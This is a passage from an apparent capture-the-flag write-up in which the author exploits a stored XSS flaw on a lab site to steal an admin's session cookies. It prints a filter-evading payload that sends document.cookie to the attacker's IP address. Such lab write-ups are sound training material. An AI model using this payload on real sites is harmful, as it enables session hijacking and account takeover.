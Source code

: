 <div style="text-align:center"> <img src="../../assets/images/thm_misguided_Ghosts/welcom_zac.png"/></div>

<br>

Obviously <u>"Create a post below; admins will check every two minutes so don't be rude."</u> Give us a big hint that this is a Client-Side attack, So i assumed its an XSS attack and this is the payload i used to grab the admin cookies:

```SH
&lt;sscriptcript&gt;var i = new Image();i.src="http://10.9.123.226/"+document.cookie;&lt;/sscriptcript&gt;
```

<div style="text-align:center"> <img src="../../assets/images/thm_misguided_Ghosts/xss.png"/></div>


<br>

After 2 minutes, i got the admin cookies back

<div style="text-align:center"> <img src="../../assets/images/thm_misguided_Ghosts/cookies.png"/></div>
